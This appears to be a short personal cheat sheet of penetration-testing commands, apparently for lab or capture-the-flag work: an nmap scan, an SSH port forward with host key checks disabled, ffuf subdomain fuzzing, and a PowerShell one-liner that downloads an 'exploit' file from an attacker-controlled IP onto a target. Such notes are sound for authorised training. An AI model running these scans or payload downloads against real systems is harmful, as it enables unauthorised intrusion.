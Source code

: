 # Reference

Quick Ctrl+C commands I find useful.

```
nmap -sC -sV -vv -Pn <MACHINE_IP> -oN file.nmap
```

Port forwarding from a remote ip(which here is 192.168.126.52) to my own.

```
sudo ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -N -L 0.0.0.0:80:0.0.0.0:80 student@192.168.126.52 -p 2222
```

Fuzzing subdomains.

```
ffuf -u http://<URL>/ -H "HOST: FUZZ.<URL>" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
```

```
$wc = New-Object System.Net.WebClient 
$wc.DownloadFile("http://192.168.45.238/exploit.txt","C:\Users\student\Downloads\exploit.txt") 
```

